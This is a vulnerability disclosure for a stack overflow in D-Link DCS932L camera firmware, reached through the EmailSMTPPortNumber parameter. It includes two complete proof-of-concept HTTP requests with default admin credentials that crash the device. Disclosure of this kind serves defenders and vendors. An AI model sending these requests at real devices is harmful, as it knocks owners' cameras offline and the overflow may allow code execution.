







# D-Link Vulnerability

Vendor:D-Link

Product:DCS932L

Version:2.18.01

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `alphapd` binary:

In the router's `setSystemEmail` function, `EmailSMTPPortNumber` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `EmailSMTPPortNumber` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

In `setSystemNetwork` function, It calls the process `mail`.

`alphapd->lan.sh->schedule->mail`

<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

In `mail` binary:

In `main` function, the initial input will be extracted. Eventually, the initial input will cause stack overflow.

<div  align="center"></div>

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `EmailSMTPPortNumber`, in `setSystemEmail`
* visit the `setSystemNetwork`


## PoC

We set `EmailSMTPPortNumber` as **aaaaa......** , in `setSystemEmail`

```http
POST /setSystemEmail HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 779
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.2/email.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=email.htm&ReplyErrorPage=errreml.htm&EmailScheduleEnable=1&EmailScheduleDay=2&EmailSMTPServerAddress=192.168.1.1&EmailSMTPPortNumber=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&EmailSenderAddress=pengjiaqian%40iie.ac.cn&EmailReceiverAddress=pengjiaqian%40iie.ac.cn&EmailUserName=pjqwudi&EmailPassword=pjqwudi&EmailTLSAuthentication=0&EmailScheduleMode=0&EmailScheduleInterval=300&ConfigSystemEmail=Save
```

visit the `setSystemNetwork`

```http
POST /setSystemNetwork HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 238
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.2/network.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=network.htm&ReplyErrorPage=errrnet.htm&SecondHTTPPortEnable=3&IPAddressMode=4&DNSIPAddress1=&DNSIPAddress2=&SecondHTTPPort=80&UPnPEnable=0&UPnPPortForwarding=0&BonjourEnable=1&BonjourName=DCS-932L&ConfigSystemNetwork=Save
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
